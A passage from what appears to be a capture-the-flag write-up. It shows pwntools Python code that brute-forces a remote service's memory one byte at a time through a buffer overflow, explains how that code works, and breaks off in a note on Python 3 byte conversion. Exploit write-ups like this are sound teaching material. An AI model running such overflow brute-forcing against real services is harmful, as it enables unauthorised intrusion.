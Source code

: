 #### Code

My code for this brute force looks like this:



    def get_next_byte(s, r):

        for i in r:
            p = remote(host,port)
            p.recvuntil("Please enter the message you want to send to admin:\n")
            try:
                p.send(s + i.to_bytes(1,'big'))
                p.recvuntil('Done.', timeout=2)
                p.close()
                return i.to_bytes(1,'big')
            except EOFError:
                p.close()
        import pdb   # Shouldn't get here
        pdb.set_trace()
        print("Failed to find byte")


    def brute_word(buff, num_bytes, obj, assumed=b''):

        start = time.time()
        result = assumed
        with log.progress(f'Brute forcing {obj}') as p:
            for i in range(num_bytes):
                current = '0x' + ''.join([f'{x:02x}' for x in result[::-1]]).rjust(16,'_')
                p.status(f'Found {len(result)} bytes: {current}')
                byte = None
                context.log_level = 'error'  # Hide "Opening connection" and "Closing connection" messages
                while byte == None:          # If no byte found, over range again
                    byte = get_next_byte(buff + result, range(0,255))
                result = result + byte
                context.log_level = 'info'   # Re-enable logging
            p.success(f'Finished in {time.time() - start:.2f} seconds')

        log.success(f"{obj}:".ljust(20,' ') + f"0x{u64(result):016x}")
        return result



In `get_next_byte`, for each byte, it opens a connection, sends the
overflow, and if it succeeds in getting back the message, it returns the
byte. Otherwise it tries the next byte. `brute_word` just handles
looping over a given number of bytes until it gets a full word.

Because I'm using Python3, I have to be careful with how I handle bytes
coming from an int. It's tempting to do something like
`chr(i).encode()`, which works with lower numbers:



    >>> chr(80).encode()
    b'P'
    >>> chr(127).encode()
    b'\x7f'
